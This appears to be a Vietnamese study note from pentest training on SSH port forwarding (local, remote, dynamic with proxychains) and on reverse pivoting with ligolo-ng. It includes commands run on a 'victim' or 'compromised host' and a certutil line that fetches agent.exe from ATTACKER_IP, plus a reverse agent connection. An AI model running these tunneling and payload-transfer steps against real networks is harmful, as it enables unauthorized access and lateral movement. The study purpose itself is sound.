






## reference
https://n3mu3lw.medium.com/port-forwarding-in-detail-9195568a405e

## chi tiết

### Port Forwarding 
Kĩ thuật cho phép  external devices or services truy cập vào các tài nguyên trong private local network. Thực chất nó chuyển tiếp lưu lượng mạng từ một địa chỉ IP và cổng này đến một địa chỉ IP và cổng khác.

Thực hiện Mapping giữa một public-facing port on the router và  the private IP and port of a local device . Với cách này khi router nhận ` incoming packet` nó chuyển tiếp đến  private IP and port of a local device.

use-case: muốn show local website vừa viết.
    - Xác định ip và port của máy tính chứa local website
    - Tạo một port forwading rule trên router . Bấy giờ có thể có thể truy cập được local website thông qua ip của router và port được forward

#### Local Port Forwarding


Kĩ thuật chuyển tiếp lưu lượng từ local port trên your device đến một thiết bị khác trong same local network or một mạng từ xa mà your device  có thể truy cập được. 

Attacker (`10.10.15.5`) muốn truy cập MySQL (`127.0.0.1:3306`) trên Victim Server (`10.129.15.50`) thì có thể sử dụng SSH Local Port Forwarding. triên MySQL cấu hình chỉ cho phép truy cập thông qua localhost. 

SYNTAX : `ssh -L [LOCAL_BIND_IP:]LOCAL_PORT:DESTINATION_IP:DESTINATION_PORT USER@SSH_SERVER_IP`

command: `ssh -N -L 1234:127.0.0.1:3306 user@10.129.15.50`

| Thành phần | Ý nghĩa |
|------------|---------|
| `-N` | Không chạy lệnh shell từ xa, chỉ duy trì SSH tunnel |
| `-L` | Local Port Forwarding |
| `1234` | Cổng mở trên máy Attacker |
| `127.0.0.1:3306` | MySQL trên Victim Server |
| `user@10.129.15.50` | Tài khoản SSH trên Victim Server , ssh server lắng nghe ở port mặc định  |

#### Remote Port Forwarding


Kĩ thuật này chuyển tiếp lưu lượng từ remote device đến một thiết bị khác ngoài hoặc trong private local network.

Thực hiện chuyển tiếp lưu lượng từ remote device (máy attacker) đến thiết bị MySQL (thiết bị mà Compromised Host có thể truy cập)

SYNTAX: `ssh -R [REMOTE_BIND_IP:]REMOTE_PORT:DESTINATION_IP:DESTINATION_PORT USER@SSH_SERVER_IP`

Command: `ssh -N -R 1234:192.168.1.100:3306 user@10.10.15.5` chạy trên **Compromised Host**

**NOTE**
Việc lựa chọn phụ thuộc vào máy nào có thể chủ động thiết lập kết nối SSH tới máy nào.
- Local (-L): Attacker chạy SSH Client và kết nối tới SSH Server có khả năng tiếp cận dịch vụ đích.
- Remote (-R): Máy nội bộ chạy SSH Client, chủ động kết nối ra SSH Server của Attacker, rồi chuyển tiếp lưu lượng ngược vào mạng nội bộ.    

#### Dynamic Port Forwarding

##### Attacker có thể SSH vào Victim
Mô hình mạng



Cấu hình proxychains:file `/etc/proxychains.conf`  thêm `socks4 127.0.0.1 port_listener`. Trên mô hình mạng là nghe ở port 9050.

command: `ssh -D port_listener target_name_machine@target_ip_machine`

từ đó  MỌI CÂU LỆNH CÓ THỂ BẮT ĐẦU BẰNG proxychains  RỒI THỰC HIỆN BÌNH THƯỜNG.


##### Victim chỉ cho phép kết nối SSH ra ngoài

Thiết lập **Remote Dynamic Port Forwarding**:

Cấu hình ProxyChains trên Attacker `/etc/proxychains4.conf`
```
strict_chain
proxy_dns

[ProxyList]
socks5 127.0.0.1 1080
```

Syntax: `ssh -N -R [bind_address:]socks_port [-p ssh_port] user@ssh_server`


trên máy victim : `ssh -N -R 127.0.0.1:1080 user@10.10.14.5`

Sau khi thiết lập xong thì có thể truy cập mạng nội bộ.


### Reverse Pivoting
[ligolo](https://docs.ligolo.ng/)

#### B1: tải mã nguồn
```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz
mkdir -p ~/ligolo
tar -xf ~/ligolo-ng_proxy_0.8.2_linux_amd64.tar -C ~/ligolo
ls
chmod +x ~/ligolo/proxy
~/ligolo/proxy --help
```

#### B2: Tải agent tương ứng với pivoting 
##### Windows
```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_windows_amd64.zip
mkdir -p agent
unzip ligolo-ng_agent_0.8.2_windows_amd64.zip -d agent

# host a web server to share file , then machine pivoting will download file 
python3 -m http.server 8000
certutil -urlcache -split -f http://ATTACKER_IP:8000/agent.exe agent.exe
```


##### Linux
```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_linux_amd64.tar.gz
mkdir -p agent_linux
tar -xf ligolo-ng_agent_0.8.2_linux_amd64.tar.gz -C agent_linux

# Mở server chia sẻ file (nếu chưa mở)
cd agent_linux
python3 -m http.server 8000

# có thể dùng sftp , scp nếu mục tiêu có ssh
```

####  Cấu hình
chạy proxy
```
# run proxy
sudo ./proxy -selfcert

┌─[eu-academy-3]─[10.10.14.137]─[htb-ac-2632108@htb-7hqpxd9vlc]─[~/ligolo]
└──╼ [★]$ sudo ./proxy -selfcert
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] daemon configuration file not found. Creating a new one... 
? Enable Ligolo-ng WebUI? Yes
? Allow CORS Access from https://webui.ligolo.ng? Yes
WARN[0006] WebUI enabled, default username and login are ligolo:password - make sure to update ligolo-ng.yaml to change credentials! 
WARN[0006] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
ERRO[0006] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
INFO[0006] Listening on 0.0.0.0:11601                   
INFO[0006] Starting Ligolo-ng Web, API URL is set to: http://127.0.0.1:8080 
WARN[0006] Ligolo-ng API is experimental, and should be running behind a reverse-proxy if publicly exposed. 
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.8.2

ligolo-ng »  
```

Chạy agent trên máy pivoting
```
./agent.exe -connect ATTACKER_IP:11601 -ignore-cert
```


Cấu hình interface
```
# Tạo interface TUN
sudo ip tuntap add user $(whoami) mode tun ligolo

# Bật interface
sudo ip link set ligolo up

# check
ip addr show ligolo

# check session and select session
session    # then type number session to access this session

# Start tunnel
start

# add route 
sudo ip route add  dải_ip_máy_pivoting/<mark> dev ligolo
# sudo ip route add 172.16.0.0/16 dev ligolo

```

NOTE: Sau khi cấu hình xong , mọi request đi qua card mạng 172.16.0.0/16  sẽ đi qia card ligolo  và card này mọi request sẽ đi qua tunel được thiết lập 